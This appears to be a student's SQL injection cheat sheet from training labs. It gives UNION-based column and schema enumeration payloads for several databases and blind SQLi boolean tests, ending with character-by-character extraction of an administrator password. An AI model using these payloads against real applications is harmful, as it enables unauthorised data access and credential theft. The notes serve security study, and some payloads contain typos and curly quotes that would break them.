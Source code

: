 # SQL Injection

### How to check column in table query

Injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
```
' ORDER BY 1 -- 
' ORDER BY 2 --
' ORDER BY 3 --
```

### Finding columns with a useful data type

Having already determined the number of required columns, you can probe each column to test whether it can 
hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.
```
' UNION SELECT ‘a’,NULL,NULL,NULL --
' UNION SELECT NULL,’a’,NULL,NULL -- 
' UNION SELECT NULL,NULL,’a’,NULL --
' UNION SELECT NULL,NULL,NULL,’a’ --
```
 - When determining the sata type from an *Oricle* database you will need to use the from clause. 
    - Example: `' UNION SELECT ‘a’,NULL FROM DUAL--`

## Database version
### You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- Oracle: 	`SELECT banner FROM v$version` or `SELECT version FROM v$instance`
  > Example: `' UNION SELECT banner,NULL FROM v$version--`
- Microsoft: 	`SELECT @@version`
- PostgreSQL: 	`SELECT version()` 
  > Example: `'+UNION+SELECT+version()+,NULL--`
- MySQL: 	`SELECT @@version`

## Database contents
### You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
    > Example: `' UNION SELECT TABLE_NAME,NULL FROM all_tables--`
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
    > Example: `' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_QQGUCL'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- Microsoft	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL	
  - `SELECT * FROM information_schema.tables`
    > Example: `' UNION SELECT table_name,NULL FROM information_schema.tables--` 
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 
    > Example: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_jrcoia'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- MySQL	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Blind SQL Injection

### Test to see if application is vulnerable to blind SQLi
Force a true statement buy injectiong `' and 1=1--` (true) and `' and 1=2--` (false) at the end of the tracking id to see how the application responds to a true statement and a false statement. We can use the difference in how the application responds to gather information about the system.
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=1--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` true message
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=2--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` false message

#### Example qureies on how to inject code for information in blind SQLi
- `' and (select 'x' from users LIMIT 1)='x'--` This quiere states that if there is a users_table return x. If there is a users_table then we will get a true response back, if there is no users_table then we will get a false response back.
- `' and (select username from users where username='administrator')='administrator'--` If the first quiere returns true and there is a users table then we can also send this queire to see if there is an administrators account in the users_table

#### Password enumeration with blind SQLi
1. Find out the length of the password: `' and (select username from users where username='administrator' and LENGTH (password)>1)='administrator'--` This quiere returns true if the password length is grater than 1. Increase the lenght number after every true message untill you get a false message indicating the passowrd length 
> Example: This set of quereies indicated that the password lenght is 16 characters long
```
`' and (select username from users where username='administrator' and LENGTH (password)>14)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>15)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>16)='administrator'--` flase
```

2. Once you know the length of the password now you can quiere for characters in the same way buy submitting tons of request testing each letter/number/symbol untill you get a true response
> Example: `' and (select substring(password,1,1) from users where username='administrator')='a'--` the subtring peramiter specifies where we want to test, what position in the string to test and how many characters we want to test.





